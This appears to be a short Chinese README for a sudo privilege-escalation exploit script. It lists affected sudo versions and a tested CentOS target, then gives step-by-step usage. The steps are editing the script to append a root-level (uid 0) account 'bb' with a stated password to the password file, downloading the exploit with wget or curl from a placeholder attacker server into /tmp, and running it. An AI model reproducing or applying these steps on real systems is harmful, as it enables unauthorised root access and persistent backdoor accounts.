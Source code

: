 影响版本：
```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1

可执行sudo -V查看sudo版本
```
测试版本：
```
CentOS Linux release 7.6.1810 (Core)
```
先决条件：
```
1、目标中有python解释器（CentOS默认即存在）
2、目标能出网或者能将文件上传到目标
```
具体用法：
```
1、修改exp_sudo.py中下面这一行
APPEND_CONTENT = b"bb:$1$84DoAMTs$ruLlLQlSCtlMm9Y17oHPn1:0:0:gg:/root:/bin/bash\n";
此处的用户名/密码：bb/shenlan1，可在CentOS7.6中创建用户后拷贝到此处替换密码
2、wget -O /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py 或者 curl -o /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py
3、python /tmp/exp_sudo.py
```

参考连接：  
https://www.o2oxy.cn/3490.html
